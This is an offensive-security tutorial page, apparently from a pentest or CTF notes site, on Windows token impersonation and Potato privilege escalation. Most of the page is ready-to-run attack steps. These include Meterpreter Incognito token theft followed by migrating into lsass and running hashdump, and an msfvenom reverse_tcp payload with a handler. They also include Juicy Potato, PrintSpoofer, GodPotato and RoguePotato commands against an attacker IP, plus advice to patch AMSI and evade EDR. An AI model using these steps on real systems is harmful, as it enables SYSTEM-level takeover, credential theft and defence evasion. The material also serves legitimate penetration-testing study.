

# Token Impersonation & Potato Escalation

<Callout type="info" title="Concept Overview">
Windows Access Tokens are objects that describe the security context of a process or thread. If a process has the `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege`, it can impersonate another user's token (e.g., SYSTEM) and execute code on their behalf. Attackers abuse built-in Windows services (like COM/DCOM, Print Spooler, or RPC) to coerce a high-privileged token and steal it.

**MITRE ATT&CK Mapping:**
* [T1134 - Access Token Manipulation](https://attack.mitre.org/techniques/T1134/)
* [T1134.001 - Token Impersonation/Theft](https://attack.mitre.org/techniques/T1134/001/)
</Callout>




---

## Understanding Access Tokens

<Callout type="info" title="How Tokens Work">
When a user logs in, `winlogon.exe` creates a Windows Access Token (WAT) and attaches it to the `wininit.exe` process.
* **Primary Tokens:** Can only be attached to *processes* (Identify the user of the process).
* **Impersonation Tokens:** Can only be attached to *threads* (Allow a process to temporarily act as another user).

**Security Levels:**
* `SecurityAnonymous`: Cannot identify the user.
* `SecurityIdentification`: Can identify the user but cannot perform actions.
* `SecurityImpersonation`: Can perform actions on the local system as the user.
* `SecurityDelegation`: Can perform actions on remote systems as the user (Highest level).
</Callout>

---

## Exploitation Methods

<Tabs>
  <Tab title="Method 1: Meterpreter & Incognito">
    If you compromise a service (e.g., IIS, SQL) running as `LOCAL SERVICE` or `NETWORK SERVICE`, you might have `SeImpersonatePrivilege`. If an Administrator logs in, their token might be available in memory.

    <Steps>
      <Step title="Step 1: Check Privileges">
        <AccordionGroup>
          <Accordion title="Meterpreter Commands">
            ```ruby
            # 1. Check current privileges
            meterpreter> getuid
            # Output: NT AUTHORITY\LOCAL SERVICE
            meterpreter> getprivs
            # Look for: SeImpersonatePrivilege
            ```
          </Accordion>
        </AccordionGroup>
      </Step>
      <Step title="Step 2: List & Impersonate Tokens">
        <AccordionGroup>
          <Accordion title="Incognito Token Impersonation">
            ```ruby
            # 2. Load the Incognito extension
            meterpreter> load incognito

            # 3. List available tokens (Look for Delegate tokens)
            meterpreter> list_tokens -u
            # e.g., Found: HOSTNAME\Administrator (Delegation)

            # 4. Impersonate the Administrator token
            meterpreter> impersonate_token HOSTNAME\\Administrator

            # 5. Verify you are now Admin
            meterpreter> getuid
            # Output: HOSTNAME\Administrator
            ```
          </Accordion>
        </AccordionGroup>
      </Step>
      <Step title="Step 3: The `hashdump` Error Fix">
        <Callout type="danger" title="Access Denied Error">
        After impersonating a token, running `hashdump` may fail because the current Meterpreter process is still running in the old memory space.
        ```ruby
        meterpreter> hashdump
        # [-] Error: Operation failed: Access is denied.
        ```
        </Callout>
        <AccordionGroup>
          <Accordion title="Fix: Migrate Process">
            ```ruby
            # Fix: Migrate to a process owned by the impersonated user (e.g., lsass.exe PID 332)
            meterpreter> migrate 332

            # Now it works!
            meterpreter> hashdump
            ```
          </Accordion>
        </AccordionGroup>
      </Step>
    </Steps>
  </Tab>

  <Tab title="Method 2: Juicy Potato">
    <Callout type="danger" title="Legacy Systems">
    **Juicy Potato** abuses `SeImpersonatePrivilege` by tricking the COM (Component Object Model) service into authenticating to a malicious RPC server we set up. This yields a `SYSTEM` token, which is then used to launch our payload.
    **Limitation:** Works on Windows 10 1803 and older, Windows Server 2016 and older. Microsoft patched this in newer versions by removing the BITS service's ability to communicate over arbitrary ports.
    </Callout>

    <Steps>
      <Step title="Step 1: Generate Payload & Listener">
        ```bash
        # Create a malicious EXE
        msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f exe -o malware.exe

        # Setup Handler
        msfconsole -qx "use exploit/multi/handler; set lhost x.x.x.x; set lport 4444; set payload windows/meterpreter/reverse_tcp; run -j"
        ```
      </Step>
      <Step title="Step 2: Upload & Execute on Target">
        Download [JuicyPotato](https://github.com/ohpe/juicy-potato) and upload both files to the target.
        ```ruby
        meterpreter> upload juicy-potato.exe
        meterpreter> upload malware.exe
        meterpreter> shell
        ```
      </Step>
      <Step title="Step 3: Run the Exploit">
        ```cmd
        :: Syntax: -t (create process method) -p (payload) -l (listen port) -c (CLSID)
        :: You may need to try different CLSIDs depending on the Windows version.
        juicy-potato.exe -l 4444 -p malware.exe -t * -c {27AF75ED-20D9-11D1-B1CE-00805FC1270E}
        ```
        *If successful, `malware.exe` runs as `NT AUTHORITY\SYSTEM` and you get a Meterpreter shell.*
      </Step>
    </Steps>
  </Tab>

  <Tab title="Method 3: Modern Alternatives">
    <Callout type="warning" title="Juicy Potato Doesn't Work on Modern Windows?">
    If you have `SeImpersonatePrivilege` on Windows 10 1809+, Windows 11, or Server 2019/2022, Juicy Potato will fail. You must use modern tools that exploit different named pipe APIs (like the Print Spooler service).
    </Callout>

    <AccordionGroup>
      <Accordion title="1. PrintSpoofer (The Classic Modern Alternative)">
        Exploits the Print Spooler service named pipe impersonation.
        ```cmd
        :: Run your payload directly
        PrintSpoofer.exe -i -c "C:\Users\Public\malware.exe"
        :: Or get an interactive SYSTEM cmd
        PrintSpoofer.exe -i -c "cmd.exe"
        ```
      </Accordion>
      <Accordion title="2. GodPotato (The Ultimate Universal Tool)">
        Works almost universally from Windows 2012 to Windows 2022. It abuses the `RpcSS` Windows service (Print System Asynchronous Notification).
        ```cmd
        :: Syntax: GodPotato.exe -cmd "payload"
        GodPotato.exe -cmd "C:\Users\Public\malware.exe"
        ```
      </Accordion>
      <Accordion title="3. RoguePotato (For specific network environments)">
        Requires setting up an RPC relay server on your attacker machine. Used when the target cannot resolve local RPC ports directly.
        ```cmd
        :: Syntax involves setting up a rogue RPC server on port 135 locally
        :: Then forwarding it to the target
        RoguePotato.exe -r 10.10.14.2 -e "C:\Users\Public\malware.exe" -l 9999
        ```
      </Accordion>
    </AccordionGroup>
  </Tab>
</Tabs>

---

## Tools & Resources

<CardGroup cols={2}>
  <Card title="JuicyPotato" href="https://github.com/ohpe/juicy-potato" icon="github">
    Abuses SeImpersonatePrivilege via COM/BITS (Legacy Windows).
  </Card>
  <Card title="PrintSpoofer" href="https://github.com/itm4n/PrintSpoofer" icon="github">
    Exploits Print Spooler named pipe impersonation (Modern Windows).
  </Card>
  <Card title="GodPotato" href="https://github.com/BeetleChunks/GodPotato" icon="github">
    Universal Potato abusing RpcSS (Windows 2012 - 2022).
  </Card>
  <Card title="RoguePotato" href="https://github.com/antonioCoco/RoguePotato" icon="github">
    Requires rogue RPC relay server for specific network environments.
  </Card>
</CardGroup>

---

<Callout type="warning" title="OPSEC Note">
Modern EDRs heavily monitor for named pipe impersonation. If `PrintSpoofer` or `GodPotato` fail, it is likely due to AMSI or EDR blocking the `CreateProcessWithTokenW` API call. You may need to patch AMSI or use direct system calls (Syscalls) via custom C# wrappers.
</Callout>
